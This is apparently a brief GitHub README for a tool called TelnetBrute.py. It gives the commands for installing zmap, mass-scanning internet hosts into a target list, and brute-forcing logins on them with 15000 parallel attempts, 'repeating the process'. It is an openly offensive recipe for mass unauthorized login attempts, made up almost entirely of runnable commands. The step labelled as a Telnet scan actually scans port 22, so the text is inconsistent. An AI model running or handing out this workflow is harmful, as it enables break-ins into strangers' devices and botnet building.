 [CentOS 6.9 2GB] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

zmap -p22 -o mfu.txt -w Legend.lst 

- Bruteforce (Repeat The Process)

1- ulimit -n 999999

2- python TelnetBrute.py mfu.txt 15000 test.txt


<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lol.png">



